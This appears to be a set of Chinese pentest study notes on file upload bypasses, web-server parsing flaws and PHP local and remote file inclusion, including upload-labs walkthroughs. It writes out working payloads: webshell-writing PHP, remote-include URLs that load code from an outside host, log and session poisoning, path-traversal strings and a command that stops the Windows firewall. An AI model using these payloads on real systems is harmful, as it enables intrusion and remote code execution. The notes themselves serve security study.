## 文件上传

文件上传漏洞是指在开发过程中，未考虑文件格式后缀的合法性校验或者只是通过前端进行校验。如此攻击者将恶意代码动态脚本就可上传至服务器，从而访问恶意文件导致恶意代码执行。

- 上传文件后缀必须符合当前服务器开发语言类型

  php/.php   asp/.asp .aspx .cer   jsp/.jsp .jspx

- 确保内容正确

- **文件的访问路径**

文件上传漏洞原理




文件上传漏洞的利用条件

1. web服务器开启上传功能，且上传api对外开发
2. web用户对目标目录具有可写权限以及可执行权限
3. 上传的文件必须可执行
4. **知道上传文件上传后的文件地址**
5. 服务器配置不当，开启了PUT方法

文件上传分类：

1. 文件任意上传
2. 绕过前端js验证上传          ---前端
3. MIME-type类型绕过上传 ---服务器端
4. 文件头检测                          ---服务器端
5. 文件扩展名黑名单检测      ---服务器端
6. 文件加载检测                      ---服务器端

验证：

- 前端  js/标签
- 后端 后缀/类型/内容
- 中间件 iis/nginx/apache/tomcat
- 00截断/PUT漏洞







绕过验证姿势：

- bp抓包修改文件名称绕过js（验证检测哪种后缀文件）

- 文件类型修改 ConTent-Type（判断检测哪种文件类型）

- 文件内容检测

- 文件后缀检测

  白名单（跟随其他漏洞结合绕过）

  黑名单（后缀大小写，特殊文件名）

```
常见的媒体格式类型如下：

text/html ： HTML格式
text/plain ：纯文本格式
text/xml ： XML格式
image/gif ：gif图片格式
image/jpeg ：jpg图片格式
image/png：png图片格式
以application开头的媒体格式类型：
application/xhtml+xml ：XHTML格式
application/xml： XML数据格式
application/atom+xml ：Atom XML聚合格式
application/json： JSON数据格式
application/pdf：pdf格式
application/msword ： Word文档格式
application/octet-stream ： 二进制流数据（如常见的文件下载）
application/x-www-form-urlencoded ： <form encType=””>中默认的encType，form表单数据被编码为key/value格式发送到服务器（表单默认的提交数据的格式）
另外一种常见的媒体格式是上传文件之时使用的：
multipart/form-data ： 需要在表单中进行文件上传时，就需要使用该格式
```

测试上传：

- 前端

  - 禁用JS
  - bp抓包修改文件后缀

- 后端

  - 后缀检测

    - 黑名单

      - 大小写绕过

        - Linux(判断系统url访问文件修改文件后缀大小写判断)
          - centos默认安装的apache2.2可绕过
        - Windows
          - 不区分大小写

      - 黑名单不全绕过

        - .php3/phtml(php)
        - .cer/.asmx(asp)

      - Windows系统特性绕过

        a.php.   a.php [空格 ]   a.php:123    a.php::$DATA
    
  - 内容检测 
  
    - 图片马（正常的图片头部+webshell） FFD8FF



上传.htaccess文件

AddType application/x-httpd-php xxx  将xxx后缀的文件可使用php解析

<FilesMatch \.ccc$>
    SetHandler application/x-httpd-php    将.ccc结尾后缀的文件使用php解析   也可以使用"a.ccc"写死执行php
</FilesMatch>

生成图片马

```sh
- copy 1.jpg \b + 2.php \a 3.php (windows)
- cat 1.php >> 2.jpg (linux)
常见文件文件头：

PEG (jpg)，文件头：FFD8FF
PNG (png)，文件头：89504E47
GIF (gif)，文件头：47494638
TIFF (tif)，文件头：49492A00
Windows Bitmap (bmp)，文件头：424D
CAD (dwg)，文件头：41433130
Adobe Photoshop (psd)，文件头：38425053
Rich Text Format (rtf)，文件头：7B5C727466
XML (xml)，文件头：3C3F786D6C
HTML (html)，文件头：68746D6C3E
Email [thorough only] (eml)，文件头：44656C69766572792D646174653A
Outlook Express (dbx)，文件头：CFAD12FEC5FD746F
Outlook (pst)，文件头：2142444E
MS Word/Excel (xls.or.doc)，文件头：D0CF11E0
MS Access (mdb)，文件头：5374616E64617264204A
WordPerfect (wpd)，文件头：FF575043
Postscript (eps.or.ps)，文件头：252150532D41646F6265
Adobe Acrobat (pdf)，文件头：255044462D312E
Quicken (qdf)，文件头：AC9EBD8F
Windows Password (pwl)，文件头：E3828596
ZIP Archive (zip)，文件头：504B0304
RAR Archive (rar)，文件头：52617221
Wave (wav)，文件头：57415645
AVI (avi)，文件头：41564920
Real Audio (ram)，文件头：2E7261FD
Real Media (rm)，文件头：2E524D46
MPEG (mpg)，文件头：000001BA
MPEG (mpg)，文件头：000001B3
Quicktime (mov)，文件头：6D6F6F76
Windows Media (asf)，文件头：3026B2758E66CF11
MIDI (mid)，文件头：4D546864

 
```

trim()首尾去空函数

deldot()删除末尾的点

strrchr()以逗号进行分割

strtolower()对字符串进行转小写

str_ireplace(str1,'',str2)在str2中将str1转空

getimagesize()检查文件头部，本意是检查文件的大小

|                       检测方式                       |                           绕过姿势                           |
| :--------------------------------------------------: | :----------------------------------------------------------: |
|                        js验证                        |                      bp抓包修改文件后缀                      |
|                       MIME类型                       |                 修改为可传文件的content-type                 |
|                      黑名单不全                      |                     后缀改为.php3 .phtml                     |
|        黑名单、大小写、去空，去点、去::$DATA         |               上传.htaccess文件新增可执行后缀                |
|    黑名单+htaccess、大小写、去空，去点、去::$DATA    | 上传.user.ini( auto_prepend_file=1.gif)  题目提示已经有readme.php文件 将1.gif和.user.ini文件上传,访问readme.php时会自动包含1.gif文件(这里上传的文件路径未改变) |
|    黑名单(+htaccess+.ini)、去空，去点、去::$DATA     |                        后缀大小写混写                        |
|   黑名单(+htaccess+.ini)、大小写，去点、去::$DATA    |                         后缀后加空格                         |
|   黑名单(+htaccess+.ini)、大小写，去空、去::$DATA    |                         文件后缀加.                          |
|      黑名单(+htaccess+.ini)、大小写，去空、去.       |                       文件后缀+::$DATA                       |
| 黑名单(+htaccess+.ini)、大小写，去空、去.、去::$DATA |                     文件后缀：.空格.绕过                     |
|  str_ireplace()不区分大小写替换掉黑名单中存在的后缀  |                           后缀双写                           |

upload-lab

1. 本地shell文件后缀修改为jpg，然后在bp抓包将文件后缀改为php
2. 本地shell文件，然后在bp抓包将文件类型改为image/jpeg（对文件类型进行了验证）
3. 本地shell文件，然后在bp抓包将文件后缀改为php1或php2或php3
4. 上传.htaccess文件，内容为AddType application/x-httpd-php xxx(允许执行的后缀)二次进行上传xxx后缀马（黑名单）
5. 本地shell文件，bp抓包将文件后缀改为PhP大小写混写（验证文件名未转小写）
6. 本地shell文件，bp抓包将文件后缀新增空格（验证未去首尾空）
7. 本地shell文件，bp抓包将文件后缀新增.（验证未去文件末尾点）
8. 本地shell文件，bp抓包后在文件名后加::$DATA（验证对::$DATA替换）

## 文件解析漏洞

1. #### php5.3以下00截断

   客户端向服务器发送的数据若包含十六进制的00（空字符）会造成截断漏洞，发生在PHP代码中调用C函数的 运行a.php0x00.jpg 会以a.php读取

   文件名称或者文件保存地址00截断

2. #### 中间件解析漏洞IIS / NGINX  /Apache / Tomcat

   1. Apache解析漏洞（结合黑名单+文件未重命名）	

      存在版本：Apache1.x / Apache 2.x （2.4修复）

      从文件名右侧往左开始解析

      上传文件名为2.php.7z  以.php解析                                        

      **Apache HTTPD 换行解析漏洞（CVE-2017-15715）**

      apache通过mod_php来运行脚本，其2.4.0-2.4.29中存在apache换行解析漏洞，在解析php时xxx.php\x0A将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。

   2. #### IIS漏洞  iis6.0

      上传文件，名称为a.asp;.jpg解析为a.asp（上传后文件未重命名）

      文件夹名称shell.asp 文件夹下的所有的文件都被解析为asp脚本（必须含有此名称的文件夹）

   3. #### Nginx 空字节代码执行 

      ```
      nginx 0.5.*
      nginx 0.6.*
      nginx 0.7 <= 0.7.65
      nginx 0.8 <= 0.8.37
      ```

      00空字节代码执行                 2.jpg%00.php

      ```
      Ngnix在遇到%00空字节时与后端FastCGI处理不一致，导致可以在图片中嵌入PHP代码然后通过访问xxx.jpg%00.php来执行其中的代码
      ```

   4. #### IIS 7.0 /7.5    /Nginx<8.03  畸形解析

      上传文件名 a.jpg  访问+/.php

      

      


iis+php

IIS + ASP

JSp + tomcat/jboss/weblogic

python +自己的中间件  

net stop MpsSvc


nginx/iis         + php-cgi   自动寻址






### 编辑器漏洞

在线编辑器，继承了文件上传，图片视频上传，远程下载。某些版本存在文件上传漏洞。

fckeditor + iis6 创建文件夹

V2.2版本  apache+linux 环境下上传文件后缀+.突破

V<2.4.2 for php  上传的地方未堆media类型文件上传类型控制

v<2.4.3 	fckeditor 被动限制策略所导致的过滤不严

较高版本， FCKeditor文件上传.变为下划线





## 文件包含

可重复使用的函数在调用时，直接调用此文件调用文件的过程称为包含

为了代码更灵活，把被包含的文件设置为变量，进行动态调用，从而导致客户端可以调用任意文件，



文件包含的文件接受参数使用&拼接

`http://xx.xx.com/a.php?file=filename&cmd=exec('whoami')`


文件包含防御

1. 严格判断包含中的参数是否外部可控
2. 路径限制
3. 包含文件验证
4. 尽量不使用动态包含
5. PHP中可使用open_basedir配置限制访问
6. 过滤\ / 等
7. 禁止服务器远程文件包含

```
文件包含漏洞利用

allow_url_fopen =On/Off   是否允许打开url文件 该选项为ON 是允许包含url对象文件，，，默认开启

allow_url_incluede = On/Off  是否允许引用URL文件，激活url形式的fopen封装协议使得可以访问Url对象文件，默认关闭


```

```
#本地包含（LFI）Local File Include
指的是通过相对路径/绝对路径的方式能打开本地文件的漏洞，大部分遇到的文件包含漏洞都是本地包含
包含条件
	allow_url_fopen=On
	用户可动态控制变量
本地包含文件利用
	绝对路径读取本地文件
		payload:?action=c:\Windows\System32\drivers\hosts
	相对路径读取本地文件：
		payload:?action=..\..\..\..\..\..\..\..\Windows\System32\drivers\hosts
	包含图片马:
		payload:?action=upload\a.jpg
	
```

``` 
#有限制本地文件包含漏洞绕过
1. %00截断
    条件：
    	1 magic_quotes_gpc=Off
    	2 php版本<5.3.4  q
    payload:
    	?action=phpinfo.php%00
2. 操作系统特性，路径长度截断
    条件:
    	1 Windows下长度长于256字节，超出的部分会被丢弃(或者使用店号截断········)
    payload:?action=a.php./ * 256
    payload:?action=a.php· * 256
    	2 Linux下要长度长于4096字节，超出的部分会被丢弃
    pauload:payload:?action=a.php./ * 4096
    	
```

```
#远程文件包含漏洞 Reload File Include
指的是能够包含远程服务器上的文件并执行，可以通过http(s)或者ftp等方式，远程加载文件
危害：
	由于远程服务器文件可控，此漏洞危害性很大
条件：
	allow_url_include = On （默认关闭Off）
	allow_url_fopen = On
	用户可以动态控制变量
payload:
	?path=http://ip/info.php
	?path=ftp://用户名:密码@ip/info.php
```

```
#远程文件限制包含绕过
文件包含添加后缀
远程文件创建文件名称为不含后缀的文件

?绕过 将  服务器添加的后缀作为参数
$file = $file . 'php';
?file = http://url/a.php?.php


#号绕过(#号作为定位符) %23
空格绕过 %0a %20  PHP版本


```

``` 
#文件包含漏洞的利用
1 端口探测
	url=dict://ip:80
2 包含上传的getshell
	上传图片马，利用文件包图片马
3 包含日志文件getshell
	避免在web进行url编码，进行报错，将报错信息写入日志
	使用bp修改包内容或者curl绕过url编码
4 远程文件包含写shell
	<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[1]);?>')
5 使用PHP伪协议getshell
```



**将一句话木马写入日志，通过包含日志文件进行getshell（必须知道日志文件的路径以及日志文件内容可控）**

写入session文件   session_save_path



[http://ip/?target=db_sql.php%253f/../../../../../../windows/win.ini](http://ip/?target=db_sql.php%3f/../../../../../../windows/win.ini)



```
http://172.16.12.2/?target=db_sql.php%253f/../../../../../../../phpstudy/tmp/tmp/sess_q939q8srnllsfi8s7ipanodnh8bgcfu5
```




访问地址GET /sqli/Less-14/?id=<?php%20phpinfo();?>  但是apache对目录没有访问权限，此方法针对特殊情况 apache对日志文件有执行权限



http://192.168.21.14/a.php?action=var/log/httpd/access_log



#### 伪协议

伪协议指的是PHP封装好的过程模拟了真正协议的执行过程

| 协议    | 说明                |
| ------- | ------------------- |
| file:// | 访问本地文件系统    |
| http:// | 访问http(s)网址     |
| ftp://  | 访问FTP(S)urls      |
| php://  | 访问各个输入/输出流 |
| zlib:// | 压缩流              |
| data:// | 数据                |
| rar://  | RAR                 |
|         |                     |

```
#file://协议
用途：访问系统本地文件
使用条件：
	allow_url_fopen:Off/On
	allow_url_include:Off/On
使用方法：
	?path=file://绝对路径
```



```
#php://filter 读取文件/源码  (可使用绝对路径或者相对路径)
允许条件：
	allow_url_fopen:Off/On
	allow_url_include:Off/On
使用:
	?path = php://filter/read=convert.base64-encode/resource=fillname
通过指定末尾的文件，可以读取经过base64编码后的文件源码，可读取敏感文件
```

